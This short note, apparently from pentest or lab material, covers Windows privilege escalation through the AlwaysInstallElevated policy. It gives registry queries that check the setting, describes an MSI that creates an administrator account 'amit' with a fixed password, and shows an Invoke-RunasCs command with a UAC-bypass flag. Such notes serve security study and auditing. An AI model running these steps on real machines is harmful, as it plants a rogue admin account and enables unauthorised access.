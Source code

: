 ### Leveraging AlwaysInstallElevated
- Check if enabled: `reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated` 
                    `reg query HKLM\software\policies\microsoft\windows\installer /v alwaysinstallelevated` 

### MSI File Purpose

1. Creating the user "amit" with the password "Password123!" 
2. Adding the user to the local administrators group. 

Then we can use `Invoke-RunasCs` to get code execution as the newly created amit user:
- `Invoke-RunasCs amit 'Password123!' 'whoami /priv' -ForceProfile -CreateProcessFunction 2 -BypassUac`
